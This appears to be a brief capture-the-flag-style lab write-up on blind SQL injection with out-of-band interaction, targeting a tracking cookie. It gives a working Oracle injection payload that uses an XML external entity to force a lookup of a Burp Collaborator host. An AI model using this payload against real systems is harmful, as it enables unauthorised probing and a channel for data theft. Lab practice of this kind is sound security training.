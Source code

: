 # Lab 15 - Blind SQL injection with out-of-band interaction

> ### Vulnerable parameter - Tracking cookie

### End Goal - Exploit SQLi and cause a DNS lookup

## Analysis:

`cgwihkkm49dt3sgk9lufyyb6mxsngc.burpcollaborator.net`

`' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://cgwihkkm49dt3sgk9lufyyb6mxsngc.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--`
